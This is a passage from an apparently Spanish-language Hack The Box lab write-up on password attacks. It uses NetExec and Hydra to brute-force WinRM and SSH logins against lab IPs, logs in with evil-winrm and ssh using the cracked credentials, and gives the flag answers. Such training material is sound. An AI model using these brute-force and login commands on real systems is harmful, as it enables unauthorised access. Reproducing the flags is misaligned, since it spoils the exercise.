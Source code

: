 Ahora, una vez que tenemos credenciales, podemos ejecutar NetExec para ver los shares disponibles:
```
netexec smb 1.2.3.4 -u "user" -p "password" --shares
```

Para comunicarnos con el servidor y explorar un SHARE concreto (ver comando anterior), podemos utilizar la herramienta smbclient:
```
smbclient -U user \\\\10.129.42.197\\SHARENAME
```


----
**TARGET: 10.129.202.136**
**1. Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

Me descargo el archivo .zip que aporta el ejercicio, donde se especifica una user.list y password.list para realizar dicho ataque.

Contra WinRM, para hacer fuerza bruta, ejecuto:
```
netexec winrm 10.129.202.136 -u username.list -p password.list
```

Después de esperar 3-4 minutos, encuentro la siguiente credencias:
```
WINRM       10.129.202.136  5985   WINSRV           [+] WINSRV\john:november (Pwn3d!)
```

Con estas credenciales, podemos pasar a ejecutar EVIL-WinRM para entrar con una consola interactiva:
```
evil-winrm -i 10.129.202.136 -u john -p november
```

Finalmente, en la siguiente ruta encontraremos la "flag.txt":
```
*Evil-WinRM* PS C:\Users\john\Desktop> type flag.txt
HTB{That5Novemb3r}
```


**2. Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**
Realizo fuerza bruta contra el servidor SSH y me encuentro las siguientes credenciales: 
```
hydra -L username.list -P password.list ssh://10.129.202.136

[22][ssh] host: 10.129.202.136   login: dennis   password: rockstar

```

Con estas credenciales, ingreso al servicio *ssh* con:
```
ssh dennis@10.129.202.136
```

Y ubico la flag en:
```
dennis@WINSRV C:\Users\dennis\Desktop>type flag.txt
HTB{Let5R0ck1t}   
```
